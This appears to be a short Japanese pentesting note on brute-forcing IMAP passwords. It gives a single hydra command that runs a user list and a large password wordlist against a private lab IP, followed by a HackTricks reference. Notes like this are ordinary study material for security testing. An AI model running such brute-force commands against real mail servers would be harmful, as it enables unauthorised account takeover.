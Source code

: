 ## ## パスワードブルートフォース
```zsh
hydra -L ./user.lst -P /opt/work/WordLists/Password/10-million-password-list-top-1000000.txt 192.168.56.136 imap
```

--- 
## ##参考文献
- [https://book.hacktricks.xyz/v/jp/network-services-pentesting/pentesting-imap](https://book.hacktricks.xyz/v/jp/network-services-pentesting/pentesting-imap)
